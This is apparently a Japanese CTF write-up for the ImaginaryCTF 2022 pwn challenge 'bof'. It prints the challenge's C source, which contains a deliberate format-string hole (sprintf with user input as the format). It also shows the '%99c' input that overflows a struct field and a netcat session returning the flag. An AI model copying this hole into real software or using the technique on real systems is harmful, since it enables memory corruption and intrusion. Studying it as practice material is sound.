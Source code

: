 ```yaml
---
layout: post
title: "ImaginaryCTF 2022 - pwn: bof"
published : true
tags: CTF WriteUps pwn bof
---
```

## Description
Can you bof me?

## Attachments
https://imaginaryctf.org/r/naCsv#bof https://imaginaryctf.org/r/7ngbn#bof.c
nc bof.chal.imaginaryctf.org 1337

```cpp:bof.c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);
  sprintf(str.buf, temp);

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```

## WriteUp
`fgets(temp, 5, stdin);`では、標準入力は5文字に制限されている。
しかしながら、`sprintf(str.buf, temp);`とあり、フォーマット文字列が使用できる。`%99c`を与えることで、99文字が書き込まれたこととなり、0xdeadbeefを上書きできる。

```sh
┌──(parrot㉿parrot)-[/ctf/ctf-event/ImaginaryCTF 2022/pwn/bof]
└─$ nc bof.chal.imaginaryctf.org 1337

== proof-of-work: disabled ==
Enter your string into my buffer:
%99c                                                                             ictf{form4t_strings_4re_c00l_051c94e1}
```